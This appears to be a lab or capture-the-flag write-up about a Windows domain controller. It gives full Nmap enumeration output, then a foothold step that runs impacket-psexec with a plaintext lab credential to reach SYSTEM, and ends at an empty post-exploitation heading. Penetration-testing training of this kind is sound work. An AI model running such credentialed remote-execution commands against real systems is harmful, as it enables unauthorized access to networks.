

# DC

## Enumeration

Machine is hosted at `10.10.XXX.250`. Output from Nmap scan run [here](./#nmap):

```
Nmap scan report for dc.skylark.com (10.10.175.250)
Host is up (0.052s latency).
Not shown: 65505 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-28 00:56:32Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: SKYLARK.com0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SKYLARK.com0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SKYLARK
|   NetBIOS_Domain_Name: SKYLARK
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: SKYLARK.com
|   DNS_Computer_Name: dc.SKYLARK.com
|   DNS_Tree_Name: SKYLARK.com
|   Product_Version: 10.0.20348
|_  System_Time: 2024-08-28T00:59:08+00:00
| ssl-cert: Subject: commonName=dc.SKYLARK.com
| Not valid before: 2024-07-27T20:58:16
|_Not valid after:  2025-01-26T20:58:16
|_ssl-date: 2024-08-28T00:59:50+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
64196/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
64197/tcp open  msrpc         Microsoft Windows RPC
64202/tcp open  msrpc         Microsoft Windows RPC
64209/tcp open  msrpc         Microsoft Windows RPC
64210/tcp open  msrpc         Microsoft Windows RPC
64217/tcp open  msrpc         Microsoft Windows RPC
64234/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DC, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:bf:38:22 (VMware)
| smb2-time: 
|   date: 2024-08-28T00:59:08
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE
HOP RTT      ADDRESS
1   51.54 ms dc.skylark.com (10.10.175.250)
```

## Foothold

Before machine enumeration is even started, initial access is provided as Administrator [via the `SKYLARK\backup_service` account](./#credential-spray). I can use Impacket's PsExec to access the machine:


```bash
impacket-psexec SKYLARK/backup_service:It4Server@dc.skylark.com
```


<figure><figcaption><p>SYSTEM access on DC</p></figcaption></figure>

`SYSTEM` access achieved.

## Post Exploit


